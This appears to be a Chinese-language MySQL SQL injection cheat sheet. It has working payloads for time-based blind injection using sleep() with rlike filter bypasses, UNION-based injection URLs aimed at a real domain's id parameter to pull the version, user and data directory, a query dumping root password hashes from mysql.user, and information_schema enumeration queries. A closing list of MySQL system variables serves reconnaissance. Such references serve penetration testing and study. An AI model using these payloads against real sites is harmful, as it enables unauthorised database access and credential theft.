 测试时尽量不用 or 1=1, 如果sql 语句是执行update 或者delete，容易造成数据变更。 

在没有加() 等其他符号时， and 和 or 一起出现先计算 and，为了绕过对 and / or 的过滤，可以使用 rlike 等关键字，比如 `where 11=11 rlike sleep(10)#`。     
`?id=1%27%20AnD%201=2%20OR%20if(now()%3dsysdate()%2csleep(3)%2c0)%20And%20%271%27=%271`  

查询information_schema(>=5.0 才存在,mysql5.0以下需要字典猜表)、mysql 数据库的信息(需要root权限，表名、列名、对应权限等)  

mysql.user、information_schema.schemata、information_schema.tables、information_schema.columns、  information_schema.user_privileges  

`SELECT CONCAT_WS(0x3A, user, password) FROM mysql.user WHERE user = 'root'-- (Privileged)`  
使用CONCAT()时，任何一个参数为null，将返回null， 推荐使用CONCAT_WS()。  
CONCAT_WS() 函数第一个参数表示用哪个字符间隔所查询的结果。  
`SELECT database();`  
`SELECT group_concat(schema_name) FROM information_schema.schemata;`  
`SELECT DISTINCT(db) FROM mysql.db;-- (Privileged)`
`UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;--` MySQL 4版本时用version=9，MySQL 5版本时用version=10  
`UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename';`  
`union select concat(grantee,0x3a,privilege_type,0x3a,is_grantable) from information_schema.user_privileges`  //权限    
`SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee like '%username%';`


查询版本，用户，操作系统等  
``` 
http://www.qq.com/1.php?id=-1 union select 1,2,3,4,@@datadir,6,7,8,9,10,11,12,13,14
http://www.qq.com/1.php?id=-1 union select 
1,2,3,4,group_concat(version(),0x3a,database(),0x3a,user()),6,7,8,9,10,11,12,13,14
http://www.qq.com/1.php?id=-1 union select 1,2,3,4,@@datadir,6,7,8,9,10,11,12,13,14
http://www.qq.com/1.php?id=-1 union all select 1,unhex(hex(@@version)),3/*
http://www.qq.com/1.php?id=5 and substring(@@version,1,1)=4
``` 
如果MySQL的版本是4，这应该返回TRUE.   
用5替换4，并且，如果返回的查询匹配则版本为5   
```  
http://www.qq.com/1.php?id=5 and substring(@@version,1,1)=5
http://www.qq.com/1.php?id=5 AND MID(VERSION(),1,1) = '5';
http://www.qq.com/1.php?id=5 AND ord(MID(VERSION(),1,1)) = 53;
```
---------------------------------------------------------------------------------------------------------

### 内置变量列表  
@@version  VERSION()  @@GLOBAL.VERSION 版本   
@@datadir 路径  
@@basedir  
@@version_compile_os  
@@have_openssl 如果mysqld支持客户端/服务器协议的SSL(加密)则为YES  
@@version_compile_os 判断系统类型  
@@max_allowed_packet 包或任何生成的/中间字符串的最大大小  
@@max_user_connections MySQL账户允许的最大同时连接数,0表示没限制   
@@skip_networking 如果服务器只允许本地(非TCP/IP)连接,该值为ON  
@@table_type 默认表类型(存储引擎)  
@@basedir MySQL安装基准目录  
@@character_set_database 默认数据库使用的字符集  
@@datadir 数据库存储的地方  
@@expire_logs_days 二进制日志自动删除的天数,默认是0,表示"没有自动删除"  
@@group_concat_max_len 允许group_concat()函数结果的最大长度  
@@log_error 错误日志的位置  
@@lower_case_file_system 该变量说明是否数据目录所在的文件系统对文件名的大小写敏感.ON说明对文件名的大小写不敏感,OFF表示敏感  
@@lower_case_table_names 如果设置为1,表名用小写保存到硬盘上,并且表名比较时不对大小写敏感.如果设置为2,按照指定的保存表名,但按照小写来比较  
@@plugin_dir 插件目录的路径  
@@tmpdir 保存临时文件和临时表的目录  
@@tmp_table_size 如果内存内的临时表超过该值,MySQL自动将它转换为硬盘上的MyISAM表  